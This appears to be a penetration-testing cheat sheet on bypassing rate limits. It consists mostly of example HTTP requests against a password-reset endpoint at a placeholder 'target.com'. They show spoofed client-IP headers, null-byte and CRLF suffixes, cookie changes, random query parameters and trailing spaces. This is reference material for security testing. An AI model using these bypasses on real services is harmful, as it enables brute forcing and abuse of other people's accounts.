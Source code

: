 # Bypass Rate Limit
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1    

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

```


2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a )  or Add space after the parameter value.
```                                                                 
POST /ForgotPass.php HTTP/1.1                              
Host: target.com
[...]

email=victim@gmail.com%00
{"email":"victim@gmail.com "}
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
[...]

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com "}
```
